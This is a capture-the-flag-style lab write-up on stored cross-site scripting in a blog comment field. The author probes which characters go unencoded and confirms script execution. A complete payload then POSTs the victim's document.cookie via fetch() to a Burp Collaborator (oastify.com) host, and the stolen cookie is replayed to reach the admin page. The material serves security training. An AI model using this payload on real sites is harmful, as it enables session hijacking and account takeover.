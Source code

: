 # Lab: Exploiting cross-site scripting to steal cookies

> Lab Objective: exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.

- Firstly, Enter simple input like this `test'"><` in Blog Comment functionality, then search for the input in the Source Code.
  ![1st Screenshot](./Photos/1.png)

  > In order to know which character from those `'"><` are either HTML-Encoded, Stripped, etc.

- When viewing page source code, I've noticed that the comment input field is the only field where these `'"><` characters are interpreted normally, while the other input fields the previous characters are html encoded.
  ![2nd Screenshot](./Photos/2.png)

- Therefore, I'll inject `<script>alert(0)</script>` in the comment input field.

- The `alert(0)` function is executed successfully.
  ![3rd Screenshot](./Photos/3.png)

- In order, to get the victim cookie, I'll use this payload:
  - Which sends the cookie of the user who visits the blog post comments to a server I control (Burp Collaborator).
  - It's done automatically without any user interaction.

```html
<script>
  fetch("https://jm9o8lmudtucsx2v9tk4qrohq8wzkq8f.oastify.com", {
    method: "POST",
    mode: "no-cors",
    body: JSON.stringify({ cookie: document.cookie }),
  });
</script>
```

- When submitting that comment, and waiting for the user to visit the blog post comments.
  ![4th Screenshot](./Photos/4.png)

- The request sent to Burp Collaborator, which contains the cookie value of the victim user.
  ![5th Screenshot](./Photos/5.png)

- Go the `my-account` page, stop intercept the request with the burp, then add the cookie values received in the Burp Collaborator Tab, and forward that request.
  ![8th Screenshot](./Photos/8.png)

- Finally. I've accessed the Admin Page, and the lab is solved.
  ![9th Screenshot](./Photos/9.png)

---
